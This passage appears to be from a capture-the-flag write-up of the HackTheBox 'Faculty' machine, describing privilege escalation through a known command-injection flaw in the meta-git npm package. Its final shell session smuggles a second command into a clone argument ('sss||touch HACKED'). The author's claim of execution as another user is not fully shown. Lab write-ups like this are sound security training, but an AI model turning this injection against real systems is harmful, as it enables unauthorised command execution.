 ```node
const debug = require('debug')('meta-git');

program
  .command('add', 'Add file contents to the index')
  .command('branch', 'List, create, or delete branches')
  .command('checkout', 'Switch branches or restore working tree files')
  .command('clean', 'Remove untracked files from the working tree')
  .command('clone', 'Clone meta and child repositories into new directories')
  .command('commit', 'Record changes to the repository')
  .command('diff', 'Show changes between commits, commit and working tree, etc')
  .command('fetch', 'Download objects and refs from another repository')
  .command('merge', 'Join two or more development histories together')
  .command('pull', 'Fetch from and integrate with another repository or a local branch')
  .command('push', 'Update remote refs along with associated objects')
  .command('remote', 'Manage set of tracked repositories')
  .command('status', 'Show the working tree status')
  .command('tag', 'Create, list, delete or verify a tag object signed with GPG')
  .command('update', "Clone any repos that exist in your .meta file but aren't cloned locally")
  .parse(process.argv);

loaded = true;
```
When I logged in I also saw that there's an email for my user. It states that my user can now manage git repos for the faculty group. This is probably referncing that I can sudo ``-u developer meta-git`
```bash
olo@faculty:~$ cat /var/mail/gbyolo

<...SNIP...>

Hi gbyolo, you can now manage git repositories belonging to the faculty group. Please check and if you have troubles just let me know!\ndeveloper@faculty.htb
```

Upon further investigation, `meta-git` is not a custom script, but [an npm package](https://www.npmjs.com/package/meta-git) to "Manage your meta repo and child git repositorie". It is the git plugin for [meta](https://github.com/mateodelnorte/meta). Meta is a  "Tool for turning many repos into a meta repo"

Digging deeper, I find that there is an [RCE vuln](https://hackerone.com/reports/728040) for `meta-git`, released on Jan 11th 2020, for version 1.1.2. The current version is 1.1.7, but according to Snyk, [there is not fixed version](https://security.snyk.io/package/npm/meta-git), so this should still be exploitable.

I have a bit of a hard time getting this to work at first, until I realize that I'm running `meta-git` as `developer`, which doesn't have permission to write to folders owned by `gbyolo`. Once I `chmod 777` my `test` folder, some errors still get thrown, but the PoC works! I now have command execution as `developer`.
```bash
gbyolo@faculty:~$ cd /dev/shm/
gbyolo@faculty:/dev/shm$ mkdir tests
gbyolo@faculty:/dev/shm$ chmod 777 tests
gbyolo@faculty:/dev/shm$ cd tests
gbyolo@faculty:/dev/shm/tests$ touch test
gbyolo@faculty:/dev/shm/tests$ touch secret
gbyolo@faculty:/dev/shm/tests$ touch files
gbyolo@faculty:/dev/shm/tests$ sudo -u developer /usr/local/bin/meta-git -g
error: unknown option `-g
gbyolo@faculty:/dev/shm/tests$ meta-git clone 'sss||touch HACKED'
meta git cloning into 'sss||touch HACKED' at sss||touch HACKED

sss||touch HACKED:
fatal: repository 'sss' does not exist
sss||touch HACKED ✓
```